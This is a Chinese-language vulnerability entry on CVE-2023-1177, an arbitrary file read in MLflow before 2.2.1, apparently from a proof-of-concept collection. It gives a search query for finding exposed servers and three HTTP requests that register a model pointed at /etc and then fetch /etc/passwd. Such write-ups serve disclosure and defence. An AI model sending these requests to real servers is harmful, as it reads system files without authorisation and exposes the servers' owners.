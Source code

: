 # MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

<a-checkbox checked>MLflow < 2.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="MLflow"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1680785392550-723bb58a-8fb1-49ca-afd7-9faa9841b7ca.png)

验证POC

```plain
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![img](../../../.vuepress/public/img/1680785555309-bc13e99b-784d-46aa-9b93-b3ca28ff457e.png)

```plain
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![img](../../../.vuepress/public/img/1680785596505-b26cf5f7-10c6-4202-83f7-d5ccd71a797f.png)

```plain
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![img](../../../.vuepress/public/img/1680785731521-49f79166-61c1-4e98-9cef-461227256df9.png)
